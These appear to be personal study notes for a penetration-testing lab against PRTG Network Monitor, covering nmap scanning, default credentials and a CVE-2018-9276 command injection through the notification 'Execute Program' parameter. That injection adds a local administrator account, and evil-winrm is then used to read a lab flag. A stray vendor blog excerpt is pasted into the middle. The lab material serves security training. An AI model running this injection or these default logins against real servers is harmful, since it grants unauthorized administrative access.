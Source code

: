 # 14 prtg network

PRTG Network Monitor is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more.

It works with an autodiscovery mode to scan areas of a network and create a device list.

The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS.

It is rare to see PRTG exposed externally,

## Discovery/Footprinting/Enumeration

sudo nmap -sV -p- --open -T4 10.129.201.50

8000/tcp open ssl/http Splunkd httpd 8080/tcp open http Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor) 8089/tcp open ssl/http Splunkd httpd

Here we can see that EyeWitness lists the default credentials : prtgadmin:prtgadmin

http://10.129.201.50:8080/index.htm

curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" | grep version

#### [New PRTG release 21.3.70 with new Azure, HPE, and Redfish sensors](https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors)

Just a short while ago, I introduced you to PRTG Release 21.3.69, with a load of new sensors, and now the next version is ready for installation. And this version also comes with brand new stuff!

&#x20;PRTG Network Monitor 17.3.33.2830

Example of vulnerability which can be used : https://nvd.nist.gov/vuln/detail/CVE-2018-9276

If default admin credentials failed, try other ones : prtgadmin:Password123

## Leveraging Known Vulnerabilities

http://10.129.201.50:8080/myaccount.htm?tabid=2

Setup > Account Settings > Notifications > Add new notification

Tick the box next to EXECUTE PROGRAM

Demo exe notification - outfile.ps1 Parameter : test.txt;net user prtgadm1 Pwn3d\_by\_PRTG! /add;net localgroup administrators prtgadm1 /add

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up

Test EXE notification is queued up

sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d\_by\_PRTG!

## LAB

10.129.239.161

curl -s http://10.129.239.161:8080/index.htm -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" | grep version

Some functionalities may not work correctly or not at all. Consider upgrading to a modern browser version. We recommend [Chrome](https://www.google.com/chrome/) or [Firefox](http://www.mozilla.org/firefox/).

http://10.129.239.161:8080/myaccount.htm?tabid=2

prtgadmin:Password123

Setup > Account Settings > Notifications > Add new notification

Tick the box next to EXECUTE PROGRAM

Demo exe notification - outfile.ps1 Parameter : test.txt;net user prtgadm1 Pwn3d\_by\_PRTG! /add;net localgroup administrators prtgadm1 /add

Test

Other notification types: EXE notification is queued up

sudo crackmapexec smb 10.129.239.161 -u prtgadm1 -p Pwn3d\_by\_PRTG!

SMB 10.129.239.161 445 APP03 \[\*] Windows 10.0 Build 17763 x64 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False) SMB 10.129.239.161 445 APP03 \[-] APP03\prtgadm1:Pwn3d\_by\_PRTG! STATUS\_LOGON\_FAILURE

evil-winrm -i 10.129.239.161 -u prtgadm1 -p Pwn3d\_by\_PRTG! type c:\Users\Administrator\Desktop\flag.txt WhOs3\_m0nit0ring\_wH0?
